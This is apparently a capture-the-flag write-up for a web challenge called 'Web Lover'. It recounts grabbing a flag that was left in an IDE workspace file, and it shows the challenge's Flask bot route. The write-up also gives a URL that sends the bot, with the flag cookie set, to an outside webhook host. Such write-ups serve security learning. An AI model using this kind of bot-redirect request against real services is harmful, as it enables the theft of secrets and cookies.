

# Web Lover

Greetings, fellow seekers of the deep seas and web wonders! 🌊🦈 BLAHAJ is here to guide you through a web challenge!

## Unintended aquatic adventure 🐟

Our shark squad embarked on a mission to conquer this challenge right from the get-go. Alas, the Docker containers played hard to get, forcing us to embark on an epic journey through the source code. Lo and behold, we stumbled upon a hidden treasure within the `.idea` folder—the mysterious `workspace.xml` file.

Swimming through the XML depths, we uncovered a fascinating revelation:

```xml
<envs>
    <env name="flag" value="blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}" />
</envs>
```

What a fin-tastic find! It appeared to be a flag, and without a second thought, we submitted it. To our delight, it was the key to unlocking this underwater mystery!

## Intended solve: Chrome Chronicles 🌐

Venturing further, we stumbled upon a curious code snippet:

```py
Copy code
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

Armed with the sacred URL `http://188.166.197.31:30016/visit?site=https%3A%2F%2Fwebhook.site%2Fe1208e41-fcf7-4a4f-b331-ff4da56265bf`, victory was ours!



May your web adventures be as fruitful as a bountiful sea harvest! 🌐🦑
